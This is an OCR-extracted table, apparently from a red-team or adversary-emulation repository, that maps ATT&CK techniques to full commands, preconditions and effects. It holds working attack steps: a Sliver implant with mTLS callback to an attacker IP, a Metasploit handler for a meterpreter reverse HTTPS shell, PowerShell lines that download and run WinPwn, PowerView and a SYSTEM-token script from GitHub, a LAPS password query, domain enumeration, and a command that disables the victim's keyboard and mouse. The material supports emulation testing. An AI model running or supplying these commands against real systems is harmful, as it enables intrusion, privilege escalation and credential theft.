 | uuid | name | id | source | supported_platforms | tactics | technique | description | executor | arguments | preconditions | effects |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 972f9f15-94e5-4b3f-a97a-053d1f8f7a98 | Sliver Windows Implant Generation | T1071.004 | Manual | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol: Encrypted Channel'\] | Sliver generates implant for Windows platform and enables mtls monitoring.<br> | {'command': 'sliver > generate beacon --arch amd64 --os  windows --mtls 192.168.130.128 --save .\nsliver > mtls\n'} | {'attacker_ip': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'target_platform': {'default': 'windows', 'description': 'The operating system type of the victim machine', 'type': None}} | \[\] | \['(prepared_sliver_implant)'\] |
| 4a31f8db-89db-4f16-baab-47bb3f9d5b8a | None | None | Manual | \['windows'\] | \['Execution'\] | None | None | {'command': "Manually download the sliver implant and execute it on the victim's machine\nsliver > sessions -i session_id //interact with a session\n"} | None | \['(prepared_sliver_implant)'\] | \['(sliver_session)'\] |
| 416abcb2-2207-48e8-93c1-3010f2d8b817 | Directory Disclosure | T1083 | Sliver | \['windows', 'linux', 'macos'\] | \['Discovery'\] | File and Directory Discovery | The `pwd` command in a Sliver session prints the current working directory of the active session. It provides information about the directory in which the session is currently operating. The command includes optional flags: `-h` or `--help` to display help information, and `-t` or `--timeout` to set a command timeout in seconds, with a default of 60 seconds. | Executed in a Sliver session:<br>Command: pwd<br>About: Print working directory of the active session. <br>                                                                                                                                                                                                                                                                                                                                                                                  Usage:<br>======<br>pwd \[flags\]<br><br>Flags:<br>======                                                                                                                                                                                                                <br>-h, --help           display help<br>-t, --timeout int    command timeout in seconds (default: 60) |  | \['(sliver_session)'\] | \['(CAP_directory_disclosure ?e - executable)'\] |
| 08f66886-0e96-455b-be31-b0af37db8e23 | Build meterpreter session using Sliver | T1071.001 | Manual | \['windows'\] | \['Execution', 'Command and Control'\] | \['Windows Command Shell', 'Ingress Tool Transfer', 'Non-Standard Por'\] | Use sliver and msf linkage, msf starts monitoring, sliver bounces a shell back, <br>so that msf establishes a shell connection with the target host.<br> | {'command': '# msfconsole\nmsf6 > use exploit/multi/handler\nmsf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_https\nmsf6 exploit(multi/handler) > set lport 9091\nmsf6 exploit(multi/handler) > set lhost 192.168.130.128\nmsf6 exploit(multi/handler) > exploit -j -z\n\nsliver (BOLD_MUSCULATURE) > msf --lhost 192.168.130.128 -l 9091\n\nmsf6 exploit(multi/handler) > sessions 1\n'} | {'attacker_ip': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'attacker_port': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'payload_type': {'default': 'windows/x64/meterpreter_reverse_https', 'description': 'payload type set by msf', 'type': None}} | \['(sliver_session)'\] | \['(meterpreter_session ?s - session)'\] |
| ed8ec352-d763-411b-b825-34cc0138a911 | Process Enumeration | T1057 | Sliver | \['windows', 'linux', 'macos'\] | \['Discovery'\] | Process Discovery | The command `ps` in a Sliver session is used to list processes running on a remote system. It offers various flags to filter and format the output, such as filtering by executable name, owner, or process ID, displaying command line arguments, and printing the process tree. It also allows setting a command timeout and skipping pages of output. The `--overflow` flag helps manage terminal width by displaying truncated rows. | Executed in a Sliver session:<br>Command: ps <options><br>About: List processes on remote system.<br><br>Usage:<br>======<br>ps \[flags\]<br><br>Flags:<br>======<br>-e, --exe           string    filter based on executable name<br>-h, --help                    display help<br>-O, --overflow                overflow terminal width (display truncated rows)<br>-o, --owner         string    filter based on owner<br>-p, --pid           int       filter based on pid (default: -1)<br>-c, --print-cmdline           print command line arguments<br>-S, --skip-pages    int       skip the first n page(s) (default: 0)<br>-t, --timeout       int       command timeout in seconds (default: 60)<br>-T, --tree                    print process tree |  | \['(sliver_session)'\] | \['(process_enumeration ?p - process)'\] |
| 8315686c-035b-415e-9069-2e14799421e5 | Interactive Shell Access via Sliver | T1059 | Manual | \['windows'\] | \['Execution'\] | Command and Scripting Interpreter | In the context of the Sliver framework, the command `shell` is used to open an interactive shell on the compromised machine associated with the active session. | {'command': 'sliver (SESSION_NAME) > shell\n'} | None | \['(sliver_session)'\] | \['(CAP_powershell_access ?e - executable)'\] |
| cf6f614c-83c9-4018-911b-c432bb95acfd | User Context Verification via Sliver | T1033 | Manual | \['windows'\] | \['Discovery'\] | \['System Owner/User Discovery'\] | Simply collect various information of the target machine, including network information, <br>user information, etc..<br> | {'command': 'sliver (BOLD_MUSCULATURE) > whoami\n'} | None | \['(sliver_session)'\] | \['(target_information_collected)'\] |
| cb6e76ca-861e-4a7f-be08-564caa3e6f75 | WinPwn - printercheck | T1120 | ART | \['windows'\] | \['Discovery'\] | Peripheral Device Discovery | Search for printers / potential vulns using printercheck function of WinPwn | {'command': "$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'\niex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')\nprintercheck -noninteractive -consoleoutput", 'name': 'powershell'} | \[\] | \['(powershell)'\] | \['(vulnerable_printer ?p - printer)'\] |
| 02e8be5a-3065-4e54-8cc8-a14d138834d3 | Enumerate Active Directory Users with ADSISearcher | T1087.002 | ART | \['windows'\] | \['Discovery'\] | Account Discovery: Domain Account | The following Atomic test will utilize ADSISearcher to enumerate users within Active Directory.<br>Upon successful execution a listing of users will output with their paths in AD.<br>Reference: https://devblogs.microsoft.com/scripting/use-the-powershell-adsisearcher-type-accelerator-to-search-active-directory/<br> | {'name': 'powershell', 'elevation_required': False, 'command': '(\[adsisearcher\]"objectcategory=user").FindAll(); (\[adsisearcher\]"objectcategory=user").FindOne()\n'} | \[\] | \['(powershell)'\] | \['(enumerate_active_directory ?e - executable)'\] |
| 58ed10e8-0738-4651-8408-3a3e9a526279 | Get-ForestTrust with PowerView | T1482 | ART | \['windows'\] | \['Discovery'\] | Domain Trust Discovery | Utilizing PowerView, run Get-ForestTrust to identify forest trusts. Upon execution, progress and info about forest trusts within the domain being scanned will be displayed.<br> | {'command': "\[Net.ServicePointManager\]::SecurityProtocol = \[Net.SecurityProtocolType\]::Tls12\nIEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-ForestTrust -Verbose\n", 'name': 'powershell'} | \[\] | \['(powershell)'\] | \['(identifies_domain_forest_trusts)'\] |
| 6e85bdf9-7bc4-4259-ac0f-f0cb39964443 | Suspicious LAPS Attributes Query with Get-ADComputer ms-Mcs-AdmPwd property | T1087.002 | ART | \['windows'\] | \['Discovery'\] | Account Discovery: Domain Account | This test executes LDAP query using powershell command Get-ADComputer and lists Microsoft LAPS attributes ms-mcs-AdmPwd and ms-mcs-AdmPwdExpirationTime | {'command': 'Get-ADComputer #{hostname} -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime', 'cleanup_command': None, 'name': 'powershell', 'elevation_required': False} | {'hostname': {'description': 'Name of the host', 'type': 'string', 'default': '$env:computername'}} | \['(powershell)'\] | \['(exposes_local_admin_password ?e - executable)'\] |
| 69119e58-96db-4110-ad27-954e48f3bb13 | WMIObject Group Discovery | T1069.001 | ART | \['windows'\] | \['Discovery'\] | Permission Groups Discovery: Local Groups | Utilizing PowerShell cmdlet - get-wmiobject, to enumerate local groups on the endpoint. Upon execution, Upon execution, information will be displayed of local groups on system.<br> | {'command': 'Get-WMIObject Win32_Group\n', 'name': 'powershell'} | \[\] | \['(powershell)'\] | \['(enumerate_local_groups ?s - system)'\] |
| 8b8a6449-be98-4f42-afd2-dedddc7453b2 | Enumerate all accounts via PowerShell (Domain) | T1087.002 | ART | \['windows'\] | \['Discovery'\] | Account Discovery: Domain Account | Enumerate all accounts via PowerShell. Upon execution, lots of user account and group information will be displayed.<br> | {'command': 'net user /domain\nget-localgroupmember -group Users\nget-aduser -filter *\n', 'name': 'powershell'} | \[\] | \['(powershell)'\] | \['(NULL ?parameters)'\] |
| ccf4ac39-ec93-42be-9035-90e2f26bcd92 | WinPwn - Get SYSTEM shell - Pop System Shell using Token Manipulation technique | T1134.002 | ART | \['windows'\] | \['Defense Evasion', 'Privilege Escalation'\] | Access Token Manipulation: Create Process with Token | Get SYSTEM shell - Pop System Shell using Token Manipulation technique via function of WinPwn | {'command': "iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/TokenManipulation/Get-WinlogonTokenSystem.ps1');Get-WinLogonTokenSystem", 'name': 'powershell'} | \[\] | \['(powershell)'\] | \['(privilege_escalation ?u - user)'\] |
| 625110c4-6f30-4e19-8b22-013d4c8a8d8b | UI Control Manipulation | T1082 | Meterpreter | \['linux', 'windows', 'macos'\] | \['Discovery'\] | System Information Discovery | The command `uictl` is used within a Meterpreter session to control user interface components on a compromised system. It allows the user to enable or disable input from the keyboard, mouse, or both. This can be used to manipulate or restrict the target system's user interface interactions, potentially for maintaining stealth or preventing user interference during an operation. | Executed in a metrepreter session:<br>Usage: uictl \[enable/disable\] \[keyboard/mouse/all\]<br>Control some of the user interface components |  | \['(meterpreter_session ?s - session)', '(privilege_escalation ?u - user)'\] | \['(disable_input ?d - device)'\] |